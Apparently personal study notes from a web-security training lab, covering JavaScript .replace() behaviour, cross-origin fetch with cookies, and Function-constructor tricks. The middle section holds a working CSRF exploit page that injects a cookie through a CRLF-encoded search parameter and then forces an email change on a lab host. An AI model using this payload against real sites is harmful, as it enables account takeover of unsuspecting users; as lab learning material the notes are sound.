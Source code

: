 ## Javascript `.replace()` function

When a string value is supplied into the first argument of the .replace function, only the first instance is replaced. For all instances to be replaced, a regex expression should be used instead. 

## Cross Origin Fetch

<html>

<body>
   <form action="https://0a7f00fb032c60acc081262c002f0020.web-security-academy.net/my-account/change-email"
        method="POST">
        <input type="hidden" name="email" value="pwned@devil-user.net" />
        <input required type=hidden name=csrf value=UQD7XpBP9tbqqj6cClHK2PFJdPLDPa59>
    </form>
    <script>
        fetch("https://0a7f00fb032c60acc081262c002f0020.web-security-academy.net/?search=t%3b%0d%0aSet-Cookie%3a%20csrfKey%3dxgOkcu96eiZT19WRsMmvwQwLrTposCsA%3b%20SameSite%3dNone", {
            mode:"no-cors",
            credentials: "include"
        }).then(function(response) {
            fetch('https://0a7f00fb032c60acc081262c002f0020.web-security-academy.net/my-account/change-email', {
                method: 'POST',
                mode:"no-cors",
                credentials: "include",
                headers: {
                    'Content-Type': 'application/x-www-form-urlencoded',
                },
                body: 'email=pwned%40evil-user.net&csrf=UQD7XpBP9tbqqj6cClHK2PFJdPLDPa59'
            }).then(function(response) {
                console.log(response);
            });
        });
    </script>
</body>

</html>
To allow Fetch to perform cross origin requests while still including cookies in the request, you must specify `ceredentials: 'include'`. For instance, 

```js
fetch('https://example.com:1234/users', {
  credentials: 'include'
})
```

This is necessary to perform attacks like CSRF where it requires your attacker site to perform cross-origin requests using the victim's cookies. This also applies to fetch requests used to set cookies on a different origin. 

## Constructor Class

Each function object has a constructor object that created the function. The constructor of the constructor object hence has the ability to create functions. For example, 

```js
const foo = Function('alert(1)'); // creates a function foo that executes alert(1)
const bar = func.constructor.constructor('alert(2)'); // references the constructor.constructor function to create another function bar
```